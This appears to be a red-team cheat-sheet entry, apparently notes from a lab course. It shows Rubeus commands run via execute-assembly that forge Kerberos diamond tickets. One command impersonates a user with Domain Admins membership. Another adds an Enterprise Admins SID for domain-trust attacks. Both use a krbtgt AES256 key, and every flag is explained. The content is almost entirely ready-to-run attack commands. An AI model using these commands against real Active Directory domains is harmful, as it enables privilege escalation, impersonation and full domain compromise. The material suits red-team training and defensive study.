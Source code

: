 Forges a diamond ticket for a specified user.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
```

where:

- `/tgtdeleg` uses the Kerberos GSS-API to obtain a useable TGT for the current user without needing to know their password, NTLM/AES hash, or elevation on the host.
- `/ticketuser` is the username of the user to impersonate.
- `/ticketuserid` is the domain RID of that user.
- `/groups` are the desired group RIDs (512 being Domain Admins).
- `/krbkey` is the krbtgt AES256 hash.

#### Extra SIDs

Takes multiple SIDs. Mainly used in domain trust attacks.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-2594061375-675613155-814674916-519 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
```